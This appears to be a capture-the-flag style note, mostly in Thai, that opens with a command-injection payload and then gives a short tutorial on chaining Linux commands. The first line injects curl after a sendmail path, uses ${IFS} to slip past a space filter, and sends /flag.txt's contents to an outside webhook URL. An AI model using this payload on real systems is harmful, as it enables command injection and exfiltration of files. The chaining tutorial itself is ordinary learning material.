


/usr/sbin/sendmail;curl${IFS}https://webhook.site/a4981f34-8ee2-459c-bfd9-03bb257f2133?x=$(cat${IFS}/flag.txt)



bypass ใช้ ${IFS} แทน space เพื่อหลีกเลี่ยง filter


ใน Linux/Unix คุณสามารถรัน 2 command ในบรรทัดเดียวได้หลายวิธี:

**1. ใช้ `;` (semicolon) - รัน command ตามลำดับไม่ว่าจะสำเร็จหรือไม่**
```bash
command1; command2
```
ตัวอย่าง:
```bash
echo "Hello"; ls -la
```

**2. ใช้ `&&` (AND) - รัน command ที่สองเมื่อแรกสำเร็จ**
```bash
command1 && command2
```
ตัวอย่าง:
```bash
cd /home/user && ls -la
```

**3. ใช้ `||` (OR) - รัน command ที่สองเมื่อแรกล้มเหลว**
```bash
command1 || command2
```
ตัวอย่าง:
```bash
cd /nonexistent || echo "Directory not found"
```

**4. ใช้ `&` - รัน command แรกใน background แล้วรัน command ที่สอง**
```bash
command1 & command2
```

**5. ใช้ `|` (pipe) - ส่งผลลัพธ์จาก command แรกไปยัง command ที่สอง**
```bash
command1 | command2
```
ตัวอย่าง:
```bash
ps aux | grep apache
```

วิธีที่ใช้บ่อยที่สุดคือ `;` และ `&&` ขึ้นอยู่กับว่าต้องการให้ command ที่สองรันเสมอหรือเฉพาะเมื่อแรกสำเร็จ

